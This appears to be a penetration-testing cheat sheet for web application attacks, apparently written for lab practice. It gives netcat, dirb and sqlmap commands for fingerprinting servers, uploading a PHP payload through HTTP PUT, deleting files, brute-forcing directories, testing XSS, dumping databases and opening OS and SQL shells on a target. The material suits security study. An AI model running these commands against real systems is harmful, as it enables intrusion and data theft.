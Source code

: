 ```yaml
---
title: "Web Attacks"
description: "Web application vulns and exploits"
---
```


## Banner grabbing

### Netcat (for HTTP services)

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL (for HTTPS services)

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

```bash
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs

`GET, POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server

You have to find the size of the file you are uploading first

```bash
wc -m payload.php
[size] payload.php
```

```bash
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]
```

### DELETE is used to delete a file from the server

```bash
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs

```bash
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning

### Dirbuster

![Dirb Avi](/images/dirb.avif)

### dirb

```bash
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```bash
dirb http://10.10.10.10/ -u <username>:<password>
```

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt`
2. You can also choose different extensions but `php` and `bak` will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using [Options -\> Advanced Options -\> Authentication options]
4. The con with Dirbuster is that it sometimes freezes which is a real bummer otherwise it's real good.

## Google Dorks

`site: intitle: inurl: filetype: AND, OR & | -`

​[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS (Cross-Site Scripting)

1. Find a reflection point
2. Test with HTML tag (\<h1\>Test\</h1\>)
3. Test with JS code [alert('XSS')]

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)​

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections

### GET

```bash
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```bash
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER

```bash
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases

```bash
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all

```bash
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST

Find the parameters that are being passed in POST using BurpSuite. E.g: `username=some&password=thing` where the parameter username is vulnerable.

```bash
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are the same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find them on its own so don't sweat it and also for most of the prompts use the default options(i.e. just press enter).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell

```bash
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell

```bash
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```